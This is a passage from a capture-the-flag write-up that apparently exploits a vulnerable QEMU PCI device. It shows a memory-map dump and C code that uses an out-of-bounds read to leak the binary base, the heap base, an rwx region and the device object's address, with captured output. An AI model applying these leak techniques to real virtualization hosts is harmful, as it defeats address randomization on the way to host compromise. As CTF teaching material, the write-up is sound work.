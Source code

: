 ```
[anon_559a89353] 0x559a8935904a 0x7fc60400                                                                                                                                                     
[anon_559a89353] 0x559a89359052 0x1600007fc60400                                                                                                                                               
[anon_559a89353] 0x559a8935905a 0x2d00007fc60400                                                                                                                                               
[anon_559a89353] 0x559a89359062 0xffd300007fc60400                                                                                                                                             
[anon_559a89353] 0x559a89359072 0x7fc60400                                                                                                                                                     
[anon_559a89353] 0x559a89372b2a 0x10100007fc60400                                                                                                                                              
[anon_559a89353] 0x559a89372bb2 0x100000007fc60400                                                                                                                                             
[anon_559a89353] 0x559a89372bba 0xf00000007fc60400                                                                                                                                             
[heap]          0x559a8a2dccf2 0x2d00007fc60400                                                                                                                                                
[heap]          0x559a8a2dccfa 0x7fc60400                                                                                                                                                      
[heap]          0x559a8a2dcd6a 0x7fc60400                                                                                                                                                      
[heap]          0x559a8a2dcefa 0xffd300007fc60400                                                                                                                                              
[heap]          0x559a8a2dcf18 0x7fc60400                                                                                                                                                      
[SKIP]
```
Given that we don't want to get the leak from heap because of the unreliability we can see that there are available leaks in a writable area of the binary in `anon_559a89353`, indeed the page address looks like a PIE based binary address or an heap address (but the address is not marked heap), and if we look more carefully, the page is contiguous to the last file mapped memory area. Now we can leak the rwx memory area, lets' find a way to leak object's address! I asked on the hack.lu discord a hint for this leak because didn't have any idea. And finally it's quite easy, we can just leak the `opaque` pointer in the `MemoryRegion` structure which points to the object's address.

If I summarize we have:
- A reliable leak of: 
	- the object's address with the `opaque` pointer
	- the binary base address (from the heap)
	- the rwx memory area (writable memory area that belongs to the binary).

Then we can write this code:
```c
// offset I got in gdb locally
uint64_t base = read_offt(0x10c0 + 8*3) - 0xdef90; // heap leak
uint64_t bss = base + 0xbc2000; // points to the anonnymous memory area right after the binary
uint64_t heap_base = read_offt(0x1000 + 8*3) - 0xf3bff0; // useless
uint64_t ops_struct = read_offt(-0xd0); // That's &ClouInspctState.mmio.ops
uint64_t addr_obj = read_offt(-(0xd0-8)) + 2568; // CloudInspectState.mmio.opaque
uint64_t leak_rwx = read_offt((bss + 0x6000) - addr_obj) & ~0xffff; // leak in the bss

printf("[*] ops_struct: %lx\n", ops_struct);
printf("[*] Binary base address: %lx\n", base);
printf("[*] Heap base address: %lx\n", heap_base);
printf("[*] Leak rwx: %lx\n", leak_rwx);
printf("[*] Addr obj: %lx\n", addr_obj);

/*
[*] ops_struct: 559a89173f20
[*] Binary base address: 559a88791000
[*] Heap base address: 559a8a0561d0
[*] Leak rwx: 7fc604000000
[*] Addr obj: 559a8af92f88
```